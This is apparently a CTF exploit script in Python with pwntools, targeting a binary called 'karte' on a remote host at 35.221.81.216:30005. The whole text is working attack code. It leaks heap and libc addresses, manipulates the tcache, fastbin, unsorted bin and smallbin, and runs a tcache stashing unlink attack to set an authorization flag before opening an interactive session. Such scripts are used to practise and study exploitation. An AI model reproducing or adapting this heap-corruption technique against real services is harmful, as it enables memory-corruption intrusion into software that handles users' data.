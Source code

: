 ```python


if __name__ == "__main__":
    # s = process("./karte")
    s = remote("35.221.81.216", 30005)
    elf = ELF("./karte")
    name_addr = elf.symbols["name"]
    auth_addr = elf.symbols["authorized"]
    libc = ELF("./libc.so.6")
    s.recvuntil(b"> ")
    name = p64(0) * 3 + p64(name_addr + 0x10)
    s.sendline(name[:0x1e])

    # heap leak from fastbin
    for i in range(9):
        alloc(s, i + 100, 0x78)

    for i in range(9):
        deallocate(s, i + 100)

    heap_base = show(s, 108)["size"] - 0x610
    tps = heap_base + 0x10
    print(hex(heap_base))

    for i in range(14):
        alloc(s, 1000 + i, 0x88)

    # fill tcache
    for i in range(13, 0, -2):
        deallocate(s, i + 1000)

    # to unsorted bin
    for i in range(12, -1, -2):
        deallocate(s, i + 1000)

    # to smallbin
    alloc(s, 10000, 0x98)

    key = heap_base + 0xcb0
    libc_key = show(s, key)["size"]
    print(hex(libc_key))

    # ready for stashing unlink attack
    change_id(s, libc_key, name_addr)

    # empty tcache
    for i in range(7):
        alloc(s, 10 + i, 0x88)

    # tcache stashing unlink attack
    alloc(s, 21, 0x88)

    select(s, 5)

    s.interactive()

```
